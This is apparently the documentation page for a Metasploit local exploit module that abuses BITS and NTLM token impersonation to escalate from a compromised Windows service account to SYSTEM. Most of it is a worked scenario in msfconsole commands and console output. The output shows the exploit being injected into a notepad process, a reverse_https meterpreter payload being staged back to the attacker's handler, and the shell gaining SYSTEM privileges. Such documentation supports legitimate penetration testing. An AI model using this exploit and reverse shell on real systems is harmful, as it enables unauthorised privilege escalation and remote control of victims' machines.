 WINRM_RPORT &#8594; Port on which the exploit impersonating a genuine WinRM service will listen on remote target. Default
value is default WinRM port (5985). However, in some Windows configuration, WinRM default port can be set to 47001. This is
the case for instance if no WinRM listener is set. More information regarding this here:
https://docs.microsoft.com/en-us/windows/win32/winrm/obtaining-data-from-the-local-computer
If the exploit fails, you may want to try other ports commonly used by WinRM.

## Scenarios

Let's assume you have in any way compromised a service process such as IIS for instance. So your meterpreter session should
look like this:
```
meterpreter > sysinfo
Computer        : DESKTOP-5VBUUE9
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : fr_FR
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
```

By default, service users hold the SE_IMPERSONATE_NAME privilege so this exploit is mainly designed to escalate from
a service account to local system. Lab experiments has shown it works for both LOCAL SERVICE and NETWORK SERVICE:

```
msf6 exploit(exploit/multi/handler) > use exploit/windows/local/bits_ntlm_token_impersonation
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/bits_ntlm_token_impersonation) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https

msf6 exploit(windows/local/bits_ntlm_token_impersonation) > exploit

[*] Started HTTPS reverse handler on https://192.168.1.33:443
[*] Executing automatic check (disable AutoCheck to override)
[!] BITS is currently running. It must be down for the exploit to succeed.
[!] BITS is running. Don't panic, the exploit should handle this, but you have to wait for BITS to terminate.
[+] The target appears to be vulnerable.
[*] Launching notepad to host the exploit...
[+] Process 5044 launched.
[*] Injecting exploit into 5044...
[*] Exploit injected. Injecting payload into 5044...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] https://192.168.1.33:444 handling request from 192.168.1.248; (UUID: fsjcbuvp) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 2 opened (192.168.1.33:444 -> 192.168.1.248:51077) at 2020-12-11 08:56:29 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

